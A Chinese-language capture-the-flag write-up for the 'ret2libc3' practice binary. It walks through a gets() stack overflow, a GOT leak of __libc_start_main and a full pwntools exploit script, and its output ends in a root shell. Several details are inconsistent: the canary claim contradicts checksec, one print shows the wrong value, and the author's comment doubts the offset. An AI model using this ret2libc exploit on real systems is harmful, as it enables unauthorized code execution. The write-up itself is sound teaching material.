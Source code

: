 # ret2libc

## 保护等级

首先检查保护等级：

```bash
$ checksec ret2libc3
[*] '/mnt/d/program/ctf/ctf-wiki/ret2libc3/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看到这是一个开启了部分只读和栈溢出保护的程序。

## 程序逻辑

在 `Ida Pro` 中打开即可看到 `main` 函数的伪代码：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-64h]

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets(&s);
  return 0;
}
```

可见这是一个相当明显的栈溢出。`0x64` 个字节就能覆盖到原 `EBP`、`0x68` 就能覆盖到返回地址。

## 利用

查找字符串和 `system` 函数之后发现都没找到。那么我们如何得到 system 函数的地址呢？

- `system` 函数属于 `libc`，而 `libc.so` 动态链接库中的函数之间相对偏移是固定的。

- 所以如果我们知道 `libc` 中某个函数的地址，那么我们就可以确定该程序利用的 `libc`。进而我们就可以知道 `system` 函数的地址。

那么如何得到 `libc` 中的某个函数的地址呢？

- 我们一般常用的方法是采用 got 表泄露，即输出某个函数对应的 got 表项的内容。
- 当然，由于 `libc` 的延迟绑定机制，我们需要泄漏已经执行过的函数的地址，通常选取的函数是 `__libc_start_main`，这是因为它是程序最初被执行的地方。

*PostScript*: 关于 `PLT` 表与 `GOT` 表的关系可以参考 [LIEF](<https://lief.quarkslab.com/doc/stable/tutorials/05_elf_infect_plt_got.html>)

```python
#!/usr/bin/env python2
# coding=utf-8
from pwn import *


class Challenge:
    libc_main_addr = 0x1AA50
    libc_system_addr = 0x3E9E0
    libc_binsh_addr = 0x17EAAA

    def __init__(self):
        self.p = process(["./ret2libc3"])
        self.elf = ELF("./ret2libc3")

    def leak_libc_main(self):
        puts_addr = self.elf.plt["puts"]
        libc_main_addr = self.elf.got["__libc_start_main"]
        main_symbol = self.elf.symbols["main"]
        # todo 我也不知道为什么是 0x70 的偏移，按反汇编结果应该是 0x68 才对。栈结构：
        #       _puts 地址(第一次 main 返回地址)==>_puts 返回地址(第二次 main 地址)==>_puts 参数(got["libc_main"])
        payload = flat(['A' * (0x6c + 0x4), puts_addr, main_symbol, libc_main_addr])
        self.p.recvuntil("Can you find it !?")
        self.p.sendline(payload)
        self.leak_main_addr = u32(self.p.recv()[:4])
        print("__libc_start_main: %s" % hex(self.libc_main_addr))

    def get_libc_offset(self):
        self.libc_base = self.leak_main_addr - self.libc_main_addr
        print("libc offset: %s" % hex(self.libc_base))

    def get_shell(self):
        system_addr = self.libc_base + self.libc_system_addr
        bin_sh_addr = self.libc_base + self.libc_binsh_addr
        payload = flat(["A" * (0x64 + 0x4), system_addr, "A" * 0x4, bin_sh_addr])
        self.p.sendline(payload)
        self.p.interactive()

    def pwn(self):
        self.leak_libc_main()
        self.get_libc_offset()
        self.get_shell()
        self.p.wait_for_close()


if __name__ == "__main__":
    c = Challenge()
    c.pwn()
```

执行结果：

```bash
$ python exp.py 
[+] Starting local process './ret2libc3': pid 6456
[*] '/tmp/pycharm_project_477/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
__libc_start_main: 0x1aa50
libc offset: 0xf7d55000
[*] Switching to interactive mode
$ whoami
root
```

